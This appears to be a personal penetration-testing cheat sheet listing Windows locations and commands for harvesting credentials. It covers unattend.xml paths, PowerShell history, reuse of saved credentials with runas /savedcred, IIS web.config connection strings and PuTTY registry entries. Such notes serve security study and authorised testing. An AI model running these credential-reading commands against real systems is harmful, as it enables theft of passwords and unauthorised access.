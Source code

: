 ![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Windows Credential Harvesting Spots

## Unattended Windows Installations

* C:\Unattend.xml
* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Unattend\Unattend.xml
* C:\Windows\system32\sysprep.inf
* C:\Windows\system32\sysprep\sysprep.xml

## Credential Harvesting PowerShell History 

```PowerShell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```

## Saved Windows Credentials

```PowerShell
# Check for any saved credentials
cmdkey /list

# Use saved credentials
runas /savedcred /user:<username> cmd.exe
```

## IIS Configureation

```PowerShell
# Find a database connection string on the IIS configuration file
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## PuTTY

```PowerShell
# Retrieve stored proxy credentials using 
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
